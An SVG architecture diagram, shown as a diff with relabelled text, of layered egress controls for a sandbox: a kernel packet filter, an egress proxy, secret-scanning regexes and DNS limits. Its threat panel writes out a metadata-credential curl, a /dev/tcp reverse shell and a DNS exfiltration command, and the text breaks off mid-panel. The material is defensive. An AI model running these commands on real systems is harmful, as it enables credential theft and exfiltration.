

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 450" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
  <defs>
    <marker id="arr-navy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
      <path d="M0,0 L7,2.5 L0,5 Z" fill="#1e293b" />
    </marker>
    <marker id="arr-teal" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
      <path d="M0,0 L7,2.5 L0,5 Z" fill="#0f766e" />
    </marker>
    <marker id="arr-burgundy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
      <path d="M0,0 L7,2.5 L0,5 Z" fill="#991b1b" />
    </marker>
    <marker id="arr-ochre" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
      <path d="M0,0 L7,2.5 L0,5 Z" fill="#92400e" />
    </marker>
    <marker id="arr-slate" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
      <path d="M0,0 L7,2.5 L0,5 Z" fill="#475569" />
    </marker>
  </defs>
  <rect width="960" height="450" fill="#ffffff" />
  <g transform="translate(24, 20)">
    <rect width="190" height="410" rx="4" fill="#f8fafc" stroke="#991b1b" stroke-width="1.5" />
    <rect width="190" height="28" rx="4" fill="#fee2e2" stroke="#991b1b" stroke-width="1.5" />
    <text x="12" y="19" font-size="8.5" font-weight="700" fill="#991b1b">SANDBOX NETWORK NS</text>
    <text x="178" y="19" font-family="monospace" font-size="7.5" fill="#991b1b" text-anchor="end">veth0 / tap0</text>
    <g transform="translate(10, 36)">
      <rect width="170" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Interface Configuration</text>
      <text x="8" y="28" font-size="7.5" fill="#475569">Isolated Net Namespace</text>
      <text x="8" y="40" font-size="7.5" fill="#475569">No default host gateway</text>
      <text x="8" y="52" font-family="monospace" font-size="7" fill="#991b1b">0.0.0.0/0 route: unmapped</text>
-       <text x="8" y="62" font-size="6.8" fill="#0f766e">Ambient network: A = 0</text>
+       <text x="8" y="62" font-size="6.8" fill="#0f766e">Zero ambient network access</text>
    </g>
    <g transform="translate(10, 110)">
      <rect width="170" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="170" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Outbound Traffic Flows</text>
      <g transform="translate(8, 28)">
        <rect width="154" height="52" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Package Install (HTTPS)</text>
        <text x="6" y="24" font-family="monospace" font-size="7" fill="#15803d">pip install requests</text>
        <text x="6" y="36" font-family="monospace" font-size="7" fill="#475569">dst: pypi.org:443</text>
        <text x="6" y="46" font-size="6.5" font-weight="600" fill="#166534">Legitimate tool fetch</text>
      </g>
      <g transform="translate(8, 86)">
        <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Cloud IMDS SSRF</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">curl 169.254.169.254</text>
        <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  /latest/meta-data/iam</text>
        <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Host credential theft threat</text>
      </g>
      <g transform="translate(8, 150)">
        <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Raw IP Reverse Shell</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">bash -i &gt;&amp; /dev/tcp/</text>
        <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  198.51.100.1/4444</text>
        <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Direct TCP C2 connection</text>
      </g>
      <g transform="translate(8, 214)">
        <rect width="154" height="60" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Covert DNS Tunnel</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">token=$(cat /etc/key)</text>
        <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">dig $token.evil.org</text>
        <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Secret exfiltration via UDP</text>
      </g>
    </g>
  </g>
  <line x1="214" y1="225" x2="232" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
  <g transform="translate(234, 20)">
    <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
    <rect width="230" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#1e293b" text-anchor="middle">LAYER 1: KERNEL EBPF FILTER</text>
+     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#1e293b" text-anchor="middle">LAYER 1: KERNEL PACKET FILTER</text>
    <g transform="translate(10, 36)">
      <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Packet Filter Mechanics (tc hook)</text>
      <text x="8" y="28" font-size="7.5" fill="#475569">Evaluates before <tspan font-family="monospace">sk_buff</tspan> allocation</text>
      <text x="8" y="40" font-size="7.5" fill="#475569">Zero context switch; in-kernel drop</text>
      <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">D(p) = FORWARD iff dst==IP_proxy</text>
      <text x="8" y="62" font-family="monospace" font-size="7" fill="#991b1b">     else DROP (TC_ACT_SHOT)</text>
    </g>
    <g transform="translate(10, 110)">
      <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="210" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Ordered eBPF Rules (Table 8.4)</text>
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Ordered Filter Rules</text>
      <g transform="translate(8, 26)">
        <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 1: Link-Local IMDS Trap</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst == 169.254.0.0/16 or [fd00:ec2::254]</text>
        <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (DROP + Alert)</text>
      </g>
      <g transform="translate(8, 76)">
        <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 2: Intranet RFC 1918 Trap</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst in {10.0/8, 172.16/12, 192.168/16}</text>
        <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Blocks Lateral)</text>
      </g>
      <g transform="translate(8, 126)">
        <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 3: Raw Numeric IP Trap</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Direct numeric IP without DNS lease</text>
        <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Reverse Shell Abort)</text>
      </g>
      <g transform="translate(8, 176)">
        <rect width="194" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Rule 4: Proxy Forward Match</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#14532d">dst == IP_proxy &amp;&amp; dport == P_proxy</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#166534">Verdict: TC_ACT_OK (FORWARD to Envoy)</text>
+         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#166534">Verdict: TC_ACT_OK (FORWARD to proxy)</text>
      </g>
      <g transform="translate(8, 226)">
        <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 5: Default-Deny Catch-All</text>
        <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Any unmatched outbound frame</text>
        <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Zero ambient)</text>
      </g>
    </g>
  </g>
  <line x1="464" y1="225" x2="482" y2="225" stroke="#0f766e" stroke-width="2" marker-end="url(#arr-teal)" />
  <g transform="translate(484, 20)">
    <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#0f766e" stroke-width="1.5" />
    <rect width="230" height="28" rx="4" fill="#ccfbf1" stroke="#0f766e" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#0f766e" text-anchor="middle">LAYER 2: TRANSPARENT PROXY (ENVOY)</text>
+     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#0f766e" text-anchor="middle">LAYER 2: EGRESS PROXY</text>
    <g transform="translate(10, 36)">
      <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Proxy Mediation Enclave</text>
      <text x="8" y="28" font-size="7.5" fill="#475569">Terminated at loopback / internal vlan</text>
      <text x="8" y="40" font-size="7.5" fill="#475569">L7 deep inspection &amp; TLS termination</text>
      <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">Listening: IP_proxy:8443 (Mutual TLS)</text>
      <text x="8" y="62" font-size="6.8" fill="#334155">Cryptographic client identity check</text>
    </g>
    <g transform="translate(10, 110)">
      <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="210" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">L7 Protocol Inspection Engines</text>
      <g transform="translate(8, 26)">
        <rect width="194" height="74" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">A. TLS SNI Host Allowlist</text>
        <text x="6" y="24" font-size="7" fill="#475569">Extracts SNI before TLS handshake:</text>
        <rect x="6" y="28" width="182" height="18" rx="1" fill="#f0fdf4" stroke="#86efac" stroke-width="0.6" />
        <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#166534">MATCH: *.pypi.org, *.github.com → ALLOW</text>
        <rect x="6" y="50" width="182" height="18" rx="1" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.6" />
        <text x="8" y="62" font-family="monospace" font-size="6.8" fill="#991b1b">MISMATCH: evil-c2.com → 403 FORBIDDEN</text>
      </g>
      <g transform="translate(8, 106)">
        <rect width="194" height="78" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">B. Outbound Secret Redaction</text>
        <text x="6" y="24" font-size="7" fill="#475569">Regex deep payload scanner on POST bodies:</text>
        <rect x="6" y="28" width="182" height="42" rx="1" fill="#fef3c7" stroke="#fde68a" stroke-width="0.6" />
        <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#92400e">AWS: AKIA[0-9A-Z]{16}</text>
        <text x="8" y="50" font-family="monospace" font-size="6.8" fill="#92400e">GH:  ghp_[0-9a-zA-Z]{36}</text>
        <text x="8" y="62" font-size="6.5" font-weight="700" fill="#b45309">Action: Block POST &amp; Sever Session</text>
      </g>
      <g transform="translate(8, 190)">
        <rect width="194" height="84" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
        <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">C. Split-Horizon DNS Enclave</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Strict query length cap: &lt; 50 chars</text>
+         <text x="6" y="24" font-size="7" fill="#475569">Strict label length cap: ≤ 24 chars</text>
        <text x="6" y="36" font-size="7" fill="#475569">Shannon entropy filter: H(X) &gt; 4.2 drop</text>
        <rect x="6" y="42" width="182" height="34" rx="1" fill="#f0fdfa" stroke="#99f6e4" stroke-width="0.6" />
        <text x="8" y="54" font-family="monospace" font-size="6.8" fill="#0f766e">dig $token.evil.org → NXDOMAIN</text>
        <text x="8" y="68" font-size="6.5" font-weight="600" fill="#0f766e">Rate-clamped: 30 bytes/sec exfil limit</text>
      </g>
    </g>
  </g>
  <line x1="714" y1="225" x2="732" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
  <g transform="translate(734, 20)">
    <rect width="202" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
    <rect width="202" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
    <text x="12" y="19" font-size="8.5" font-weight="700" fill="#1e293b">EGRESS VERDICT &amp; FABRIC</text>
    <g transform="translate(10, 36)">
      <rect width="182" height="170" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" />
      <rect width="182" height="22" rx="3" fill="#dcfce7" stroke="#16a34a" stroke-width="1.2" />
      <text x="8" y="15" font-size="8" font-weight="700" fill="#15803d">PERMITTED EGRESS</text>
      <g transform="translate(8, 28)">
        <text x="0" y="12" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">pypi.org / files.python...</text>
        <text x="0" y="22" font-size="6.8" fill="#475569">Python wheel dependencies</text>
        <text x="0" y="38" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">api.github.com</text>
        <text x="0" y="48" font-size="6.8" fill="#475569">Authorized remote git push</text>
        <text x="0" y="64" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">registry.npmjs.org</text>
        <text x="0" y="74" font-size="6.8" fill="#475569">Node module resolutions</text>
        <rect y="86" width="166" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
        <text x="83" y="100" font-size="7.5" font-weight="700" fill="#166534" text-anchor="middle">HTTP 200 OK</text>
